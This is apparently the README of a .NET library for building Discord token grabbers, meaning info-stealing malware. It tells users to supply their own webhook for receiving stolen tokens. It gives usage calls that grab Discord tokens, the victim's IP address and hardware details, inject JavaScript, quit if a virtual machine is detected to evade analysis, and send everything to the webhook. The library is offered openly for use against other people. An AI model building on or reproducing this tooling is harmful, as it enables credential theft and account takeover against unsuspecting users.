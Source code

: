# Discord-Token-Grabber-Library
A .NET library developed to create Discord token and other information grabbers with ease.

# Usage
Replace all occurances of "webhook-here" to your own server's webhook URL, this is the webhook which will be displaying the captured tokens.

Build the DLL and reference it in your project(s): ```using Furious;```

#### To grab tokens call
```Furious.Grabber.QuickStart(true);```
#### To obtain IP address
```Furious.Grabber.QuickStart(injectJS, grabIP: true);```
#### To collect hardware information
```Furious.Grabber.QuickStart(injectJS, grabIP, grabHardware: true);```
#### To check for a virtual machine
```Furious.Grabber.QuickStart(injectJS, grabIP, grabHardware, checkForVM: true);``` - if a VM is detected, the application will close instantly.
#### To send data (hardware, ip etc.) to webhook
```Furious.Grabber.SendData(await Grabber.GetHardware());```
# Requests
I do not know JS, I got it to work with luck, for those that do, the JS in the text files may look extremely messy. If you're able to optimise/clean-up the code I would greatly appreciate it.
